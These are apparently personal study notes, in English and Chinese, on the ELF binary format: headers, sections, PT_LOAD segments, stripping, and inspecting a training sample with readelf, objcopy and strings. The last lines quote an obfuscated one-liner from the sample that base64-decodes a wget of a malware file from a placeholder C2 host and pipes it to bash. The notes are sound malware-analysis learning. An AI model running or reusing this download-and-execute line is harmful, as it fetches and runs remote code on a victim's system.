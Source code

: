 ```yaml
---
title: ELF
---
```


##
##
## ELF Header
    Sections
    Segments
linking/loading process of ELF executables
##
##
## linking a target object file in order to build a working executable. (It’s important to highlight that sections are needed on linktime but they are not needed on runtime.)
##
## only PT_LOAD segments get loaded into memory. Therefore, every other segment is mapped within the memory range of one of the PT_LOAD segments.
##
##
## 两个PT_LOAD flags
## RE--read and execute-- 可执行代码。文件的entrypoint应该在这个段里面
## RW-read and write---- 文件的全局变量和动态链接信息
## .text 部分---包含了代码指令，映射到了PT_LOAD RE 段。
## 如果文件被改动，表的结构会变化
## ![2021_02_09_图片.png](https://cdn.logseq.com/%2F7aa8ab99-753a-4230-847b-43a1c3a3ef47a5a99d66-ad0a-424c-9568-7e492a02a4862021_02_09_%E5%9B%BE%E7%89%87.png?Expires=4766472377&Signature=eODqQb3zPRmL7lvHn3YgDGnrzK7k~Y-DAaj2xI32-poJF-7E13J7b7RAZloy4N3AD0zg6rtQRbY7pmG6VOR6bYEZ3tJq17zz3GPY4hTJbmM3P63NsiVchCF-6jGAGo0z8mebfAoJC8dQqw2wkagL5eGtjWx8e2yN9JeZXpnqUUqaoTerP43W-kjSzAZFfG~XZmiRyCeV2inXPZF8mvbbDEO4VSQRTbHktUTCLsFd9tqnuHtmLa0QbLzCdnalaSohabJHsk2t5zJQ2pii81a0HU4-lr2BMWOwLvxE9-hVNVsOXUDPjKHKWvZO29SA04BlB86MeXQEjmg6llo6gpkmIg__&Key-Pair-Id=APKAJE5CCD6X7MP6PTEA)
## 就像上面这个，只有三个段，其中PT_GNU_STACK---指示链接器文件是否需要可执行堆栈(这也是为什么它的大小为零)。
## ![2021_02_09_图片.png](https://cdn.logseq.com/%2F7aa8ab99-753a-4230-847b-43a1c3a3ef47ecb3954b-bfe9-4c8a-898b-4579c1c8d1302021_02_09_%E5%9B%BE%E7%89%87.png?Expires=4766472006&Signature=AS2PLW8fKDuV6kace5fEIBuSLkDDkrWrZq7a~WsHxvN7swqquDYr7kjgj5rtrQOASJ2ud~lhESwZOEGNMbyD6jP3soxpDUV4lDrdOPOHpk-XBsdWWBBrFv0kal-VJHGuUCWrvjRhYtO3iiM-7ptghKeUb0sSeaMg3BjeCAR1UnuspTi9QU7FwkNS6swNcSjJqv~Dk8DgRS4clJpDslS4FTlx50AyGfxSv2bYczi99m1uWDFxBS3Mm8~1TGpEt0Xhj6m2GgDX~9WAeGtcgyepO7X6HayVoF38kkA~EpcHnd22LBCB~OWqyvDuoN1PW7sHmo72a~9ZGPfYHaV7DKr-4g__&Key-Pair-Id=APKAJE5CCD6X7MP6PTEA){:height 492, :width 475}
##
## objcopy -S training-sample training-sample-stripped
## readelf -s training-sample-stripped
## 然后就只能看到动态symbol表
## Strip utilities may also leave the sections and patch fields in the ELF header (e shoff: offset of the section header table and e shnum: the number of section headers). As a result, the binary will be detected as having no sections.

Strip实用程序也可以在ELF报头中留下section和patch字段(e shoff: section头表的偏移量，e shnum: section头的数量)。结果，二进制文件将被检测为没有section
##
## ELF头--入口点，程序头表的位置
## readelf -h training-sample-- view header info
## strings training-sample > str.txt
## echo d2dldCBodHRwOi8vc29tZW5vbmV4aXRpbmdjbmNbLl1jb20vbWFsd2FyZS5hcHA=|base64 -d |bash;
## base64解密
